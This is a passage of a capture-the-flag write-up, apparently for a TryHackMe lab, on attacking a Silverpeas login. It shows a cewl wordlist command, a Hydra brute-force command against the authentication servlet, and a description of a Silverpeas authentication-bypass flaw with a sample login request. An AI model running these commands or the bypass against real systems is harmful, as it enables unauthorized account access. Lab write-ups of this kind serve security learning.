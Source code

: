 ## Enumeration

```console
cewl http://silverplatter.thm > pass.txt
```
![](cewl.png){: width="1497" height="359"}

Now, we intercept and analyze a login request using Burp to gather the necessary information for crafting our Hydra command. This involves capturing the HTTP POST request sent when attempting to log in, identifying critical details such as the target URL, form parameters, and the server's response to incorrect credentials. 

![](burp.png){: width="1571" height="308"}

Analyzing Key Components:

- Target: silverplatter.thm
- Port: 8080
- Form Path: /silverpeas/AuthenticationServlet
- Parameters: Login, Password, DomainId
- Failure Condition: The response contains “Login or password incorrect.”

Using the information gathered, the Hydra command can be constructed as follows:

```console
hydra -l scr1ptkiddy -P pass.txt silverplatter.thm -s 8080 http-post-form "/silverpeas/AuthenticationServlet:Login=^USER^&Password=^PASS^&DomainId=0:F=Login or password incorrect" -V
```
![](hydra.png){: width="1431" height="715"}

Log in to the Silverpeas using the credentials we just obtained.

![](silverpeas.png){: width="1919" height="928"}

## CVE Method

[Exploit Title: Silverpeas CRM - Authentication Bypass](https://gist.github.com/ChrisPritchard/4b6d5c70d9329ef116266a6c238dcb2d)

Silverpeas up to and including 6.3.4 is vulnerable to a trivial authentication bypass. When authenticating, if the sender omits the password form field, the application will sign you in as the user specified without any challenge.

E.g. the standard login request will look like this:

```POST /silverpeas/AuthenticationServlet HTTP/2
Host: 212.129.58.88
Content-Length: 28
Origin: https://212.129.58.88
Content-Type: application/x-www-form-urlencoded

Login=SilverAdmin&Password=SilverAdmin&DomainId=0
```
This will fail login (unless they have forgotten to change the default password) and you will be redirected back to the login page with an error code.
